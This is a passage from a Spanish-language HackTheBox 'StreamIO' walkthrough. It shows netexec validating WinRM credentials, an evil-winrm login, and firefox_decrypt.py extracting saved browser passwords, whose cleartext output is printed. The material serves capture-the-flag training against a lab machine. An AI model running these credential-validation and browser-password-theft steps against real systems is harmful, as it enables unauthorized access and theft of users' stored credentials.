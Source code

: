 Haciendo uso de `netexec` podremos validar las credenciales

```python
❯ netexec winrm 10.10.11.158 -u nikk37 -p 'get_dem_girls2@yahoo.com'
```

![20240325205846.png](20240325205846.png)

Podemos ver que las credenciales son validas por lo que haciendo uso de `evil-winrm` podremos ingresar como `nikk37`.

![20240325210041.png](20240325210041.png)

Enumerando los directorios encontraremos algo interesante, que es algunas credenciales de una perfil de usuario del navegador.

![20240325212536.png](20240325212536.png)

### Credenciales de Firefox

Luego de descargarnos los archivos necesarios lo que haremos es obtener las credenciales con `firefox_decrypt.py`

```python
❯ python3 firefox_decrypt.py /home/b0ysie7e/seven/hackthebox/maquinas/StreamIO/content/firefox
2024-03-25 22:37:29,521 - WARNING - profile.ini not found in /home/b0ysie7e/seven/hackthebox/maquinas/StreamIO/content/firefox
2024-03-25 22:37:29,522 - WARNING - Continuing and assuming '/home/b0ysie7e/seven/hackthebox/maquinas/StreamIO/content/firefox' is a profile location

Website:   https://slack.streamio.htb
Username: 'admin'
Password: 'JDg0dd1s@d0p3cr3@t0r'

Website:   https://slack.streamio.htb
Username: 'nikk37'
Password: 'n1kk1sd0p3t00:)'

Website:   https://slack.streamio.htb
```